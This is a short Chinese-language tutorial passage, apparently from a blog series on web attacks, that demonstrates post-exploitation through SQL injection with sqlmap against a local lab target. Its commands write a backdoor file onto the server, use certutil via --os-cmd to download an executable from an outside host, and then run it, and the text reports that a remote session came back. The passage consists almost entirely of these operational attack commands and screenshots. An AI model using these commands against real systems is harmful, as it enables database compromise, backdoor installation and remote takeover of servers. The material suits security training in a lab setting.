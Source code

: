 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135198886-23085e56-59f9-4024-b852-b0d8fc4ae058.png)

```plain
写入文件：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --file-write "d:/w.txt" --file-dest "d:/1.txt" 
w.txt是要写的文件（本地），1.txt是后门文件（远程）
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135198723-aa93adae-c673-4d63-8582-3585097b9b4a.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135198905-683343e7-27ae-4702-b2cf-ec12f5e6804e.png)

命令执行：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --os-cmd="certutil.exe -urlcache -split -f http://www.mumuxi8.com:80/sql.exe d:/sql.exe"

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135199228-2bd87b2c-79c3-4c5b-a0ba-c6872b74cd08.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135199018-94e8e0f1-6865-422e-a3d4-99fe97f3aadc.png)

```plain
命令执行，执行后门代码上线：python310 sqlmap.py -u "http://127.0.0.1:8081/web/mysql/news.php?id=1" --os-cmd="d:/sql.exe"
执行成功，收到会话。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135199225-a5bbc842-5a68-47a8-bd27-58e3e7131d19.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135199259-c39e14cb-b162-4136-9242-83e9d93f0d7f.png)



来自: [安全的小菜鸡 - 第26天：Web攻防-通用漏洞&SQL注入&Sqlmap&Oracle&Mongodb&DB2等](http://www.mumuxi8.com/?id=56)